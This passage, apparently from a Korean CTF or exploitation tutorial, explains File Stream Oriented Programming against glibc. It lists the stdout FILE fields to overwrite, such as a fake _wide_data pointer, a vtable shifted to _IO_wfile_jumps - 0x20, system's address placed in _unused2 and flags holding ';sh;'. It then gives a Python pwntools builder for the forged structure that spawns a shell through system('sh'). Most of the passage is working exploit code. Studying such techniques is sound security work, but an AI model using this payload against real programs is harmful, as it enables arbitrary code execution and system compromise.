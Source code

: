 `fp->_lock == libc.symbols['_IO_2_1_stdout_'] + 0x10`

`fp->vtable = libc['_IO_wfile_jumps'] - 0x20`
<br/>
<br/>

`fp->_wide_data = libc.symbols['_IO_2_1_stdout_'] - 16`

`fp->_IO_read_ptr == 0`

`fp->_IO_write_base == 0`

`fp->_unused2 = p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc.symbols['_IO_2_1_stdout_'] + 196 - 104)`

이렇게 stdout을 구성하면 system("sh")를 호출할 수 있다. 
<br/>
<br/>

```python
libc.address = libc_base
def FSOP_struct(flags = 0, _IO_read_ptr = 0, _IO_read_end = 0, _IO_read_base = 0,\
_IO_write_base = 0, _IO_write_ptr = 0, _IO_write_end = 0, _IO_buf_base = 0, _IO_buf_end = 0,\
_IO_save_base = 0, _IO_backup_base = 0, _IO_save_end = 0, _markers= 0, _chain = 0, _fileno = 0,\
_flags2 = 0, _old_offset = 0, _cur_column = 0, _vtable_offset = 0, _shortbuf = 0, lock = 0,\
_offset = 0, _codecvt = 0, _wide_data = 0, _freeres_list = 0, _freeres_buf = 0,\
__pad5 = 0, _mode = 0, _unused2 = b"", vtable = 0, more_append = b""):
    
    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00"*0x14
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
    
    FSOP += p64(vtable)
    FSOP += more_append
    return FSOP

_IO_file_jumps = libc.symbols['_IO_file_jumps']
stdout = libc.symbols['_IO_2_1_stdout_']
log.info("stdout: " + hex(stdout))
FSOP = FSOP_struct(flags = u64(b"\x01\x01;sh;\x00\x00"), \
        lock            = libc.symbols['_IO_2_1_stdout_'] + 0x10, \
        _IO_read_ptr    = 0x0, \
        _IO_write_base  = 0x0, \
        _wide_data      = libc.symbols['_IO_2_1_stdout_'] - 0x10, \
        _unused2        = p64(libc.symbols['system'])+ b"\x00"*4 + p64(libc.symbols['_IO_2_1_stdout_'] + 196 - 104), \
        vtable          = libc.symbols['_IO_wfile_jumps'] - 0x20, \
        )
```
이를 코드로 정리하면 위와 같다.
<br/>
<br/>
